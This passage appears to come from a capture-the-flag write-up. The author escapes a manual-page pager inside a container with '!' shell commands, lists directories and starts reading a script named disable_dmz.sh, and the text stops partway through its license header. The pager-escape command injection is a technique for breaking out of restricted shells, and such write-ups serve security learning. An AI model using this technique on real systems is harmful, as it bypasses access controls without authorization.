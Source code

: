 ```console
 Manual page socat(1) line 1 (press h for help or q to quit)!ls -la
!ls -la
total 76
drwxr-xr-x  21 moar   moar    4096 Oct 24 19:10 .
drwxr-xr-x  21 moar   moar    4096 Oct 24 19:10 ..
-rwxr-xr-x   1 nobody nogroup    0 Oct 24 19:05 .dockerenv
drwxr-xr-x   2 nobody nogroup 4096 Jun 14  2018 bin
drwxr-xr-x   2 nobody nogroup 4096 Apr 12  2016 boot
drwxr-xr-x   4 nobody nogroup 4096 Oct 24 19:05 dev
drwxr-xr-x  44 nobody nogroup 4096 Oct 24 19:05 etc
drwxr-xr-x   3 nobody nogroup 4096 Jun 14  2018 home
drwxr-xr-x   8 nobody nogroup 4096 Sep 13  2015 lib
drwxr-xr-x   2 nobody nogroup 4096 Apr 17  2018 lib64
drwxr-xr-x   2 nobody nogroup 4096 Apr 17  2018 media
drwxr-xr-x   2 nobody nogroup 4096 Apr 17  2018 mnt
drwxr-xr-x   2 nobody nogroup 4096 Apr 17  2018 opt
dr-xr-xr-x 111 nobody nogroup    0 Feb  9 02:16 proc
drwx------   2 nobody nogroup 4096 Apr 17  2018 root
drwxr-xr-x   5 nobody nogroup 4096 Apr 17  2018 run
drwxr-xr-x   2 nobody nogroup 4096 Apr 27  2018 sbin
drwxr-xr-x   2 nobody nogroup 4096 Apr 17  2018 srv
drwxr-xr-x   2 nobody nogroup 4096 Feb  5  2016 sys
drwxrwxrwt   2 moar   moar      40 Feb  9 02:16 tmp
drwxr-xr-x  10 nobody nogroup 4096 Apr 17  2018 usr
drwxr-xr-x  11 nobody nogroup 4096 Apr 17  2018 var
```

Awesome, it worked! So we found our command injection. Let's see what's in the `home` folder.

```console
!ls -la /home
total 12
drwxr-xr-x  3 nobody nogroup 4096 Jun 14  2018 .
drwxr-xr-x 21 moar   moar    4096 Oct 24 19:10 ..
drwxr-xr-x  2 nobody nogroup 4096 Jun 29  2018 moar
!done  (press RETURN)!ls -la /home/moar

!ls -la /home/moar
total 24
drwxr-xr-x 2 nobody nogroup 4096 Jun 29  2018 .
drwxr-xr-x 3 nobody nogroup 4096 Jun 14  2018 ..
-rw-r--r-- 1 nobody nogroup  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 nobody nogroup 3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 nobody nogroup  655 May 16  2017 .profile
-r-xr-xr-x 1 nobody nogroup  695 Jun 26  2018 disable_dmz.sh
```

The `disable_dmz.sh` file looks interesting, let's read it and find out what's inside!

```console
!done  (press RETURN)!cat /home/moar/disable_dmz.sh

!cat /home/moar/disable_dmz.sh
#!/bin/sh

# Copyright 2018 Google LLC
#
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     https://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
```
